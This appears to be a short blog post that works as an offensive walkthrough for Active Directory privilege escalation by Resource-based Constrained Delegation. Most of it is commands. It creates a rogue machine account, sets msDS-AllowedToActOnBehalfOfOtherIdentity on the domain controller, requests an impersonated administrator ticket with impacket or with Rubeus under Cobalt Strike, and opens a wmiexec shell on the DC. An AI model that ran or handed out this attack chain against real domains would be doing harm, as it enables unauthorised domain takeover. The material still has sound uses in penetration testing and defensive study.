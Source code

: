 [back](/blog)

### Resource-based Constrained Delegation

Each domain user, by default, has permission to add 10 computers to the domain. This fact very often helps when you have GenericAll rights, for example from a user group to a domain controller. Here is a small manual for elevating privileges in a domain.

![Image](/img/rbcd/1.png)

First of all lets get some useful tools:

```
git clone https://github.com/Kevin-Robertson/Powermad
git clone https://github.com/SecureAuthCorp/impacket
git clone https://github.com/GhostPack/Rubeus
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

Step-by-step privesc:

```
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount JAKI2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

import-module .\PowerView.ps1
$ComputerSid = Get-DomainComputer JAKI2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

getST.py jaki.local/JAKI2 -dc-ip dc.jaki.local -impersonate administrator -spn www/dc.jaki.local
```

![Image](/img/rbcd/2.png)


```
export KRB5CCNAME=administrator.ccache

wmiexec.py dc.jaki.local -k
```

or just use cobalt strike function:

```
execute-assembly /tmp/Rubeus.exe s4u /user:JAKI2 /rc4:32ed87bdb5fdc5e9cba88547376818d4 /impersonateuser:administrator /msdsspn:cifs/dc.jaki.local /ptt
```

![Image](/img/rbcd/3.png)

![Image](/img/rbcd/4.png)

```
cat /tmp/ticket_b64 | sed /^$/d | tr -d '\r\n' | sed -e "s/ //g" | base64 -d > /tmp/ticket

ticketConverter.py /tmp/ticket.kirbi admin.ccache 

export KRB5CCNAME=admin.ccache

wmiexec.py dc.jaki.local -k 
```

Useful links:

+ [PowerShellMafia](https://github.com/PowerShellMafia)
+ [Powermad](https://github.com/Kevin-Robertson/Powermad)
+ [Rubeus](https://github.com/GhostPack/Rubeus)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)